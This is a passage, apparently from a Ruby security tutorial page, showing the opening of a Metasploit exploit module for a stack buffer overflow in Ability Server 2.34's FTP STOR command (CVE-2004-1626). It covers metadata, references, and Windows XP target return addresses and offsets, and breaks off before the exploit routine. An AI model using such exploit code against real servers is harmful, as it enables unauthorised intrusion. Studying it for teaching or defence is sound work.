 ```
end 
```

### 总结

```
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
  Rank = NormalRanking

  include Msf::Exploit::Remote::Ftp

 def initialize(info = {})
    super(update_info(
      info,
      'Name'            => 'Ability Server 2.34 STOR Command Stack Buffer Overflow',
      'Description'     => %q{
        This module exploits a stack-based buffer overflow in Ability Server 2.34.
        Ability Server fails to check input size when parsing 'STOR' and 'APPE' commands,
        which leads to a stack based buffer overflow. This plugin uses the 'STOR' command.

        The vulnerability has been confirmed on version 2.34 and has also been reported
        in version 2.25 and 2.32\. Other versions may also be affected.},
      'License'         => MSF_LICENSE,
      'Author'          =>
        [
          'muts',            # Initial discovery
          'Dark Eagle',      # same as muts
          'Peter Osterberg', # Metasploit
          'Ruby (@Rubyfu)',  # Just explain the module
        ],
      'References'      =>
        [
          [ 'CVE', '2004-1626' ],
          [ 'OSVDB', '11030'],
          [ 'EDB', '588'],
          ['URL', 'http://rubyfu.net'] # Just explain the module
        ],
      'Platform'       => %w{ win },
      'Targets'        =>
        [
          [
            'Windows XP SP2 ENG',
            {
              #JMP ESP  (MFC42.dll. Addr remains unchanged until a patched SP3)
              'Ret' => 0x73E32ECF,
              'Offset' => 966
            }
          ],
          [
            'Windows XP SP3 ENG',
            {
              #JMP ESP  (USER32.dll. Unchanged unpatched SP3 - fully patched)
              'Ret' => 0x7E429353,
              'Offset' => 966
            }
          ],
```